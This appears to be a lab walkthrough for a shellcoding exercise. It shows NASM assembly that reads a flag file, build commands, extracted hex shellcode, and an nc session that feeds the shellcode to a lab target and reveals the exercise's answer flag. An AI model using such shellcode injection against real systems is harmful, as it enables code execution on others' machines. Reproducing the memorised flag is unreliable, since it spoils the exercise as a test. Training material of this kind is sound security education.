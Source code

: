 ```nasm
    ; read file
    lea rsi, [rdi]      ; pointer to opened file
    mov rdi, rax        ; set fd to rax from open syscall
    mov al, 0          ; read syscall number
    mov dl, 24         ; size to read
    syscall

    ; write output
    mov al, 1          ; write syscall
    mov dil, 1          ; set fd to stdout
    mov dl, 24         ; size to read
    syscall
```

Students need to assemble the file then link it to attain the binary of it:

Code: shell

```shell
nasm -f elf64 flag.s
ld -o flag flag.o
```

```
┌─[eu-academy-1]─[10.10.15.11]─[htb-ac413848@htb-zgbckjjywe]─[~]
└──╼ [★]$ nasm -f elf64 flag.s
┌─[eu-academy-1]─[10.10.15.11]─[htb-ac413848@htb-zgbckjjywe]─[~]
└──╼ [★]$ ld -o flag flag.o
```

Subsequently, using `shellcoder.py` from the `Shellcodes` section, students need to extract the shellcode from the binary:

```shell
python3 shellcoder.py flag
```
```
┌─[eu-academy-1]─[10.10.15.11]─[htb-ac413848@htb-zgbckjjywe]─[~]
└──╼ [★]$ python3 shellcoder.py flag

4831c05048bf2f666c672e74787457b0024889e7be000000000f05488d374889c7b000b2180f05b00140b701b2180f05
```

At last, students need to connect to the spawned target machine using `nc` and feed it the extracted shellcode to receive the flag `HTB{5h3llc0d1ng_g3n1u5}`:

```shell
nc STMIP STMPO
4831c05048bf2f666c672e74787457b0024889e7be000000000f05488d374889c7b000b2180f05b00140b701b2180f05
```
```
┌─[eu-academy-1]─[10.10.15.11]─[htb-ac413848@htb-zgbckjjywe]─[~]
└──╼ [★]$ nc 165.232.32.50 30739

4831c05048bf2f666c672e74787457b0024889e7be000000000f05488d374889c7b000b2180f05b00140b701b2180f05
HTB{5h3llc0d1ng_g3n1u5}
```

Answer: `HTB{5h3llc0d1ng_g3n1u5}`